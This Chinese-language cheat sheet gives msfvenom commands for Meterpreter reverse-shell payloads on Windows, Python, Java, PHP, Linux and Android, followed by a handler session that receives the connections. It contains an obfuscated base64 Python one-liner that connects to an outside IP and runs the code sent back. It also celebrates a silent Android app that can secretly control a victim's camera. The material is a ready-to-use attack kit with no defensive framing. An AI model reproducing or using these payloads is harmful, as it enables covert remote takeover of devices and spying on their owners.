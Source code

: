 

**具体编码方式和编码次数大家可以自行改变:)**
**使用msfvenom --list可以查看所有的payload encoder nops...哦～～**

####生成Windows reverse_tcp payload

	msfvenom -p windows/meterpreter/reverse_tcp -e -i 3 LHOST=172.22.25.51 LPORT=23333 -f exe -o ~/Desktop/shell.exe

or

	msfvenom -p windows/x64/meterpreter_reverse_tcp -e -i 3 LHOST=172.22.25.51 LPORT=23333 -f exe -o ~/Desktop/shell.exe



####生成Python reverse_tcp payload

	msfvenom -p python/meterpreter/reverse_tcp -e -i 3 LHOST=172.22.25.51  LPORT=23333

生成出来的Python是可以直接解码来改IP的端口的 所以可以不用浪费时间生成payload
大家自行更改IP和端口～

	import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCcxNzIuMjIuMjUuNTEnLDIzMzMzKSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')))

####生成java payload

	msfvenom -p java/meterpreter/reverse_tcp LHOST=10.42.0.1  LPORT=23333 -o ~/Desktop/123.jar


####生成php payload

	msfvenom -p  php/meterpreter_reverse_tcp LHOST=10.42.0.1  LPORT=23333 -o ~/Desktop/123.php

####生成Linux payload

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.42.0.1  LPORT=23333 -f elf -o ~/Desktop/123.elf



####生成Android的payload :)

	msfvenom -p android/meterpreter/reverse_tcp LHOST=10.42.0.1  LPORT=23333 -o ~/Desktop/1234.apk

生成后 手机点击app无任何反应  app就默默的后台运行 干啥都行:) so cool!偷偷控制手机摄像头！

![](http://7xicbb.com1.z0.glb.clouddn.com/1.png)

####接收

	msf > use multi/handler
	msf exploit(handler) > set payload android/meterpreter/reverse_tcp
	payload => android/meterpreter/reverse_tcp
	msf exploit(handler) > set LPORT 23333
	LPORT => 23333
	msf exploit(handler) > set LHOST 10.42.0.1
	LHOST => 10.42.0.1
	msf exploit(handler) > exploit
